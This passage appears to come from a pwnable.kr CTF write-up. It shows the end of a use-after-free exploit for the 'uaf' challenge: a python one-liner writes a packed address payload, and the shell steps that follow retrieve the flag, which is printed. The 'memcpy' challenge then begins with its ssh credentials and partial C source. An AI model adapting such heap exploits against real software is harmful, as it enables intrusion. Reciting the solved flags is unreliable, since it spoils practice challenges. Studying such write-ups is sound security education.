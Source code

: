 ```bash 
python -c 'print ("\x68\x15\x40\x00\x00\x00\x00\x00")' > /tmp/ihcuaf

./uaf 24 /tmp/ihcuaf

3 2 2 1

cat flag
```

`yay_f1ag_aft3r_pwning`

https://gist.github.com/ihciah/3c157f18f49bd2287470

https://medium.com/@c0ngwang/pwnable-kr-writeup-uaf-4cb8ba851472

## [](#header-2)memcpy
> Are you tired of hacking?, take some rest here.
> Just help me out with my small experiment regarding memcpy performance. 
> after that, flag is yours.
> 
> http://pwnable.kr/bin/memcpy.c
> 
> ssh memcpy@pwnable.kr -p2222 (pw:guest)

memcpy.c:
```c
// compiled with : gcc -o memcpy memcpy.c -m32 -lm
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <sys/mman.h>
#include <math.h>

unsigned long long rdtsc(){
        asm("rdtsc");
}

char* slow_memcpy(char* dest, const char* src, size_t len){
	int i;
	for (i=0; i<len; i++) {
		dest[i] = src[i];
	}
	return dest;
}

char* fast_memcpy(char* dest, const char* src, size_t len){
	size_t i;
	// 64-byte block fast copy
	if(len >= 64){
		i = len / 64;
		len &= (64-1);
		while(i-- > 0){
			__asm__ __volatile__ (
			"movdqa (%0), %%xmm0\n"
			"movdqa 16(%0), %%xmm1\n"
			"movdqa 32(%0), %%xmm2\n"
			"movdqa 48(%0), %%xmm3\n"
			"movntps %%xmm0, (%1)\n"
			"movntps %%xmm1, 16(%1)\n"
			"movntps %%xmm2, 32(%1)\n"
			"movntps %%xmm3, 48(%1)\n"
			::"r"(src),"r"(dest):"memory");
```